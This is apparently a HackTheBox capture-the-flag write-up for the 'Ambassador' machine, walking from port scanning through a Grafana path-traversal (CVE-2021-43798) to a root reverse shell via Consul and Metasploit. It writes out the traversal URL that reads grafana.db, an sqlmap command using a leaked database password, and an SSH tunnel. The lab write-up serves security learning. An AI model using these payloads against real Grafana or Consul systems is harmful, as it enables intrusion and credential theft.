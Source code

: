 ```yaml
---
layout: default
title: Ambassador
author: k0z4c 
tags: hackthebox
asset: assets/htb/ambassador
---
```


## Come to my palace

Scanning for open ports it was easy to find ports 80, 3000 and 5432 open 
```bash
nmap -Pn -n -sC -sV -p- --max-rtt 600ms -oA all_tcp -vvv --open --stats-every 1s --packet-trace -e tun0 ambassador.htb
```

![]({% link assets/htb/ambassador/nmap.png %})

Port 3000 is actually exposing an http web server hosting Grafana 

![]({% link assets/htb/ambassador/nmap_grafana.png %})

Meanwhile on port 80 another server, the dev server, is hosted  

![]({% link assets/htb/ambassador/ambassador_web.png %})

The grafana service's  version  was found vulnerable to path traversal through CVE-2021-43798, 
so it was possible to dump the application database with 

```bash
http://10.10.11.183:3000/public/plugins/table-old/../../../../../../../../../../../../var/lib/grafana/grafana.db
```

![]({% link assets/htb/ambassador/grafana_web.png %})

An already-ready exploit can be used to get the database and the decryption key <https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798>

Looking  through the database a cleartext password can be found within the **data_source** table 

![]({% link assets/htb/ambassador/db_cleartext.png %})

so it was possible to connect directly and dump the developer password 

```bash
sudo sqlmap -d 'mysql://grafana:dontStandSoCloseToMe63221!@ambassador.htb:3306/grafana' -D whackywidget -T users --dump 
```
![]({% link assets/htb/ambassador/developer_access.png %})

## Meet the Consul

Enumerating the listening tcp sockets on the box we can see that several ports are open from the local host side.
These can be related to the hashicorp consul services (https://developer.hashicorp.com/consul/docs/install/ports)

![]({% link assets/htb/ambassador/consul_ports.png %})

We can abuse the consul web service creating an agent that will execute our reverse shell.
But to do thiz a secret key will be needed.. that can be found within the history of the repository located at /opt/my-app/whackywidget through 

```bash
git diff c982db8eff6f10f8f3a7d802f79f2705e7a21b55
```

![]({% link assets/htb/ambassador/git_leak.png %})

so we can load the metasploit module and insert the parameter and get a root shell, after pivoting to the localhost interface. Then 

```bash
ssh -C -N  -f -L 8500:127.0.0.1:8500 developer@ambassador.htb 
```

So we configure the below settings and set the payload to linux/x86/shell_reverse_tcp  

![]({% link assets/htb/ambassador/msfconfig.png %})

Then we ran the exploit getting a root reverse shell 

![]({% link assets/htb/ambassador/root.png %})

